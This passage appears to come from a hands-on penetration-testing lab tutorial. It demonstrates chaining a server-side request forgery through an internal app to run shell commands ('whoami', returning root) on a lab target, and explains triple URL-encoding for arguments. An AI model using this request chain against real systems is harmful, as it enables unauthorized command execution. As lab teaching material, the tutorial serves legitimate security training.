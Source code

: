 SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 93
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:48:32 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=whoami</h1><a>root
 </a></body></html>
```

We can execute commands under the superuser context on the target application. But what happens if we try to submit a command with arguments, such as the below?

SSRF Exploitation Example

```shell-session

AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a"

HTTP/1.0 400 Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1')
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 586

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 400</p>
        <p>Message: Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1').</p>
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>
```

To execute commands with arguments or special characters, we need to encode them three times as we pass them through three different web applications.

For doing so, you can use any online URL-encoding service such as [urlencoder.org](https://www.urlencoder.org/). A quick way to achieve this from the terminal also exists. This is to use `jq`, which supports encoding as follows:
